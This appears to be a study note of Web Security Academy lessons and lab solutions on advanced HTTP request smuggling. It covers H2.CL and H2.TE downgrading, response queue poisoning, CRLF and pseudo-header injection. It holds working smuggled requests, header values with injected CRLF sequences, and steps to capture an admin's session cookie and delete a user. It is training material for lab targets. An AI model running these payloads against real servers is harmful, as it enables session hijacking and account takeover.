

# Advanced HTTP request smuggling

## HTTP/2 message length

Although you won't see this in Burp, HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read in. Therefore, the length of the request is the sum of its frame lengths.

## HTTP/2 downgrading

HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request. Web servers and reverse proxies often do this in order to offer HTTP/2 support to clients while communicating with back-end servers that only speak HTTP/1. This practice is a prerequisite for many of the attacks covered in this section.



## H2.CL vulnerabilities

**Front-end (HTTP/2)**

```
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
content-length	0
GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1
```

**Back-end (HTTP/1)**

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

### H2.CL request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load a malicious JavaScript file from the exploit server and call alert(document.cookie). The victim user accesses the home page every 10 seconds.

**Solution**

1. From the **Repeater** menu, enable the **Allow HTTP/2 ALPN override** option and disable the **Update Content-Length** option.
2. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request by including a *Content-Length:* 0 header as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.

    ```
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    SMUGGLED
    ```

3. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
4. Using Burp Repeater, notice that if you send a request for *GET /resources*, you are redirected to *https://YOUR-LAB-ID.web-security-academy.net/resources/*.
5. Create the following request to smuggle the start of a request for */resources*, along with an arbitrary Host header:

    ```
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    GET /resources HTTP/1.1
    Host: foo
    Content-Length: 5

    x=1
    ```

6. Send the request a few times. Notice that smuggling this prefix past the front-end allows you to redirect the subsequent request on the connection to an arbitrary host.
7. Go to the exploit server and change the file path to */resources*. In the body, enter the payload *alert(document.cookie)*, then store the exploit.
8. In Burp Repeater, edit your malicious request so that the Host header points to your exploit server:

    ```
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    GET /resources HTTP/1.1
    Host: YOUR-EXPLOIT-SERVER-ID.web-security-academy.net
    Content-Length: 5

    x=1
    ```

9. Send the request a few times and confirm that you receive a redirect to the exploit server.
10. Resend the request every 10 seconds or so until the victim is redirected to the exploit server and the lab is solved.

## H2.TE vulnerabilities

Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any transfer-encoding: chunked header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

**Front-end (HTTP/2)**

```
:method	POST
:path	/example
:authority	vulnerable-website.com
content-type	application/x-www-form-urlencoded
transfer-encoding	chunked
0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

**Back-end (HTTP/1)**

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: bar
```

## Response queue poisoning

Response queue poisoning is a powerful request smuggling attack that enables you to steal arbitrary responses intended for other users, potentially compromising their accounts and even the entire site.

Response queue poisoning also causes significant collateral damage, effectively breaking the site for any other users whose traffic is being sent to the back-end over the same TCP connection. While attempting to browse the site as normal, users will receive seemingly random responses from the server, which will prevent most functions from working correctly.

### Aftermath of request smuggling

**Front-end (CL)**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

**Back-end (TE)**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

### Smuggling a complete request

With a bit of care, you can smuggle a complete request instead of just a prefix. As long as you send exactly two requests in one, any subsequent requests on the connection will remain unchanged:

**Front-end (CL)**

```
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

**Back-end (TE)**

```
POST / HTTP/1.1*\r\n*
Host: vulnerable-website.com*\r\n*
Content-Type: x-www-form-urlencoded*\r\n*
Content-Length: 61*\r\n*
Transfer-Encoding: chunked*\r\n*
*\r\n*
0*\r\n*
*\r\n*
GET /anything HTTP/1.1*\r\n*
Host: vulnerable-website.com*\r\n*
*\r\n*
GET / HTTP/1.1*\r\n*
Host: vulnerable-website.com*\r\n*
*\r\n*
```

No invalid requests are hitting the back-end, so the connection should remain open following the attack.

### Response queue poisoning via H2.TE request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

**Solution**

1. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request using chunked encoding as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.

    ```
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Transfer-Encoding: chunked

    0

    SMUGGLED
    ```

2. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
3. In Burp Repeater, create the following request, which smuggles a complete request to the back-end server. Note that the path in both requests points to a non-existent endpoint. This means that your request will always get a 404 response. Once you have poisoned the response queue, this will make it easier to recognize any other users' responses that you have successfully captured.

    ```
    POST /x HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Transfer-Encoding: chunked

    0

    GET /x HTTP/1.1
    Host: YOUR-LAB-ID.web-security-academy.net
    ```

4. Send the request to poison the response queue. You will receive the 404 response to your own request.
5. Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

    *Note*
    *If you receive some 200 responses but can't capture a 302 response even after a lot of attempts, send 10 ordinary requests to reset the connection and try again.*

6. Copy the session cookie and use it to send the following request:

    ```
    GET /admin HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Cookie: session=STOLEN-SESSION-COOKIE
    ```
7. Send the request repeatedly until you receive a 200 response containing the admin panel.
8. In the response, find the URL for deleting Carlos (*/admin/delete?username=carlos*), then update the path in your request accordingly. Send the request to delete Carlos and solve the lab.

## Request smuggling via CRLF injection

Even if websites take steps to prevent basic H2.CL or H2.TE attacks, such as validating the content-length or stripping any transfer-encoding headers, HTTP/2's binary format enables some novel ways to bypass these kinds of front-end measures.

In HTTP/1, you can sometimes exploit discrepancies between how servers handle standalone newline (\n) characters to smuggle prohibited headers. If the back-end treats this as a delimiter, but the front-end server does not, some front-end servers will fail to detect the second header at all.

```Foo: bar\nTransfer-Encoding: chunked```

This discrepancy doesn't exist with the handling of a full CRLF (\r\n) sequence because all HTTP/1 servers agree that this terminates the header.

On the other hand, as HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that \r\n no longer has any special significance within a header value and, therefore, can be included inside the value itself without causing the header to be split:

```foo	bar\r\nTransfer-Encoding: chunked```

This may seem relatively harmless on its own, but when this is rewritten as an HTTP/1 request, the \r\n will once again be interpreted as a header delimiter. As a result, an HTTP/1 back-end server would see two distinct headers:

```
Foo: bar
Transfer-Encoding: chunked
```

### HTTP/2 request smuggling via CRLF injection

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

**Solution**

1. In Burp's browser, use the lab's search function a couple of times and observe that the website records your recent search history. Send the most recent *POST /* request to Burp Repeater and remove your session cookie before resending the request. Notice that your search history is reset, confirming that it's tied to your session cookie.
2. Expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2.
3. Using the Inspector, add an arbitrary header to the request. Append the sequence *\r\n* to the header's value, followed by the *Transfer-Encoding:* chunked header:

    **Name**
    ```
    foo
    ```

    **Value**

    ```
    bar\r\n
    Transfer-Encoding: chunked
    ```

4. In the body, attempt to smuggle an arbitrary prefix as follows:

    ```
    0

    SMUGGLED
    ```

    Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix
5. Change the body of the request to the following:

    ```
    0

    POST / HTTP/1.1
    Host: ace41fe31eb06ba5c14d0568005600ca.web-security-academy.net
    Cookie: session=u0llG9qiVqbAPaUV2DqPD0I4EOVv1pEd;_lab_analytics=gOQcV7PleofNiBVXDyyyGQa2CzVjcdNLsNpU3bUDBfCkiCAhqZO1fD7HTIQhNBYoi038XgjksldGFj2NAeWNGCpEZ1JVaWJBW2mPfeXSyRELhtBmKWLcgizHfSOYv6yjPpCX4Fho24DKlbLKJAP9HIyYNVWFL56qszCsjyGJGgPm90Jm2XHQOJbNCzzUfAHRCDgEVu1CTyhxqOi7aClpnK2O0qYtmQ67niXDsh5y8gTJbmoAopYdZExeiDu2ANM4
    Content-Length: 800

    search=hellboywhat
    ```
6. Send the request, then immediately refresh the page in the browser. The next step depends on which response you receive:

    - If you got lucky with your timing, you may see a 404 Not Found response. In this case, refresh the page again and move on to the next step.
    - If you instead see the search results page, observe that the start of your request is reflected on the page because it was appended to the search=x parameter in the smuggled prefix. In this case, send the request again, but this time wait for 15 seconds before refreshing the page. If you see a 404 response, just refresh the page again.
7. Check the recent searches list. If it contains a GET request, this is the start of the victim user's request and includes their session cookie. If you instead see your own POST request, you refreshed the page too early. Try again until you have successfully stolen the victim's session cookie.
8. In Burp Repeater, send a request for the home page using the stolen session cookie to solve the lab.

    ```
    Cookie: victim-fingerprint=HNfC2USFe1lX9M0ID2IxQAnzNlbiZG5j; secret=C5uhFzN0qKB2uuAZnda3HcuNCiMuEQUU; session=rrOWoew0abOCbx2V5fTKLfvY92lCy2OM; _lab_analytics=9y3YRy5WX2yqINppeVH4VVwOj0cdPiVhl9KaeGDm
    ```

## HTTP/2 exclusive vectors

**Injecting via header names**

By combining colons with \r\n characters, you may be able to use an HTTP/2 header's name field to sneak other headers past front-end filters. These will then be interpreted as separate headers on the back-end once the request is rewritten using HTTP/1 syntax:

```
Front-end (HTTP/2)
foo: bar\r\nTransfer-Encoding: chunked\r\nX:	ignore
```

```
Back-end (HTTP/1)
Foo: bar\r\n
Transfer-Encoding: chunked\r\n
X: ignore\r\n
```

**Injecting via pseudo-headers**

HTTP/2 doesn't use a request line or status line. Instead, this data is passed via a series of "pseudo-headers" on the front of the request. In text-based representations of HTTP/2 messages, these are commonly prefixed with a colon to help differentiate them from normal headers. There five pseudo-headers in total:

- *:method* - The request method.
- *:path* - The request path. Note that this includes the query string.
- *:authority* - Roughly equivalent to the HTTP/1 Host header.
- *:scheme* - The request scheme, typically http or https.
- *:status* - The response status code (not used in requests).

When websites downgrade requests to HTTP/1, they use the values of some of these pseudo-headers to dynamically construct the request line. This enables some interesting new ways of constructing attack

**Supplying an ambiguous path**

Trying to send a request with an ambiguous path is not possible in HTTP/1 due to how the request line is parsed. But as the path in HTTP/2 is specified using a pseudo-header, it's now possible to send a request with two distinct paths as follows:

```
:method	POST
:path	/anything
:path	/admin
:authority	vulnerable-website.com
```

If there is a discrepancy between which path is validated by the website's access controls and which path is used to route the request, this may enable you to access endpoints that would otherwise be off limits.

**Injecting a full request line**

During downgrading, the value of the :method pseudo-header will be written to the very beginning of the resulting HTTP/1 request. If the server allows you to include spaces in the :method value, you may be able to inject an entirely different request line as follows:

```
Front-end (HTTP/2)
:method	GET /admin HTTP/1.1
:path	/anything
:authority	vulnerable-website.com
```

```
Back-end (HTTP/1)
GET /admin HTTP/1.1 /anything HTTP/1.1
Host: vulnerable-website.com
```

As long as the server also tolerates the arbitrary trailing characters in the request line, this provides another means of creating a request with an ambiguous path.

**Injecting a URL prefix**

Another interesting feature of HTTP/2 is the ability to explicitly specify a scheme in the request itself using the :scheme pseudo-header. Although this will ordinarily just contain http or https, you may be able to include arbitrary values.

This can be useful when the server uses the :scheme header to dynamically generate a URL, for example. In this case, you could add a prefix to the URL or even override it completely by pushing the real URL into the query string:

```
Request
:method	GET
:path	/anything
:authority	vulnerable-website.com
:scheme	https://evil-user.net/poison?
```

```
Response
:status	301
location	https://evil-user.net/poison?://vulnerable-website.com/anything/
```

**Injecting newlines into pseudo-headers**

When injecting into the :path or :method pseudo-headers, you need to make sure that the resulting HTTP/1 request still has a valid request line.

As the \r\n terminates the request line in HTTP/1, simply adding \r\n part way through will just break the request. After downgrading, the rewritten request must contain the following sequence prior to the first \r\n that you inject:

```
<method> + space + <path> + space + HTTP/1.1
```

Just visualize where your injection falls within this sequence and include all of the remaining parts accordingly. For example, when injecting into the :path, you need to add a space and HTTP/1.1 before the \r\n as follows:

```
Front-end (HTTP/2)
:method	GET
:path	
/example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x
:authority	vulnerable-website.com
```

```
Back-end (HTTP/1)
GET /example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

## Accounting for front-end rewriting

### HTTP/2 request splitting via CRLF injection

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 10 seconds.

**Solution**

1. Send a request for *GET /* to Burp Repeater. Expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2.
2. Change the path of the request to a non-existent endpoint, such as /x. This means that your request will always get a 404 response. Once you have poisoned the response queue, this will make it easier to recognize any other users' responses that you have successfully captured.
3. Using the Inspector, append an arbitrary header to the end of the request. In the header value, inject *\r\n* sequences to split the request so that you're smuggling another request to a non-existent endpoint as follows:

    **Name**
    ```
    foo
    ```
    **Value**
    ```
    bar\r\n
    \r\n
    GET /x HTTP/1.1\r\n
    Host: ac4b1f8e1fdfd24ec0226127007a00dd.web-security-academy.net
    ```

4. Send the request. When the front-end server appends *\r\n\r\n* to the end of the headers during downgrading, this effectively converts the smuggled prefix into a complete request, poisoning the response queue.
5. Wait for around 5 seconds, then send the request again to fetch an arbitrary response. Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

6. Copy the session cookie and use it to send the following request:

    ```
    GET /admin HTTP/2
    Host: ac4b1f8e1fdfd24ec0226127007a00dd.web-security-academy.net
    Cookie: session=69sAMBSy7awdPSOZi4ErbL29OZPXmgGR
    ```

7. Send the request repeatedly until you receive a 200 response containing the admin panel.
8. In the response, find the URL for deleting Carlos (*/admin/delete?username=carlos*), then update the path in your request accordingly. Send the request to delete Carlos and solve the lab.